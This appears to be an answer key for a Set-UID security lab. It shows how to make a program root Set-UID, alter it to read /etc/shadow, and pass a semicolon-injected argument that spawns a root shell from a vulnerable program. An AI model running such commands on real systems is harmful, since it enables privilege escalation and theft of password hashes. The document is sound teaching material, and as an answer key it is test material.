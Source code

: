 
# Solutions to the tasks:
## Don't Look Unless you're really stuck!

## Part 1
Task 1: Compile PrintMyUID.c into the program PrintMyUID.
<br>
`
	gcc PrintMyUID.c -o PrintMyUID
`
<br>
Task 2: Run the PrintMyUID program.
<br>
`
	./PrintMyUID
`
<br>
Task 3: Change PrintMyUID to a root Set-UID program.
<br>
`
sudo chown root PrintMyUID
sudo chmod 4755 PrintMyUID
`
<br>
Task 4: Run the PrintMyUID program again and observe the changes.
<br>
`
	$ ./PrintMyUID
`
<br>
Task 5 (Optional): Modify PrintMyUID.c to print the contents of the /etc/shadow file. Repeat steps 1-4.
<br>
`
Change system("whoami"); to system("cat /etc/shadow");
`
<br><br>


## Part 2

Task 1: Compile Exploitable.c and make it a Set-UID program with compile-exploitable.sh
<br>
`
./compile-exploitable.sh
`
<br>
Task 2: Make the Exploitable program execute arbitrary commands as root using only command line arguments.
<br>
`
./Exploitable "./README.md;/bin/zsh"
`
<br>


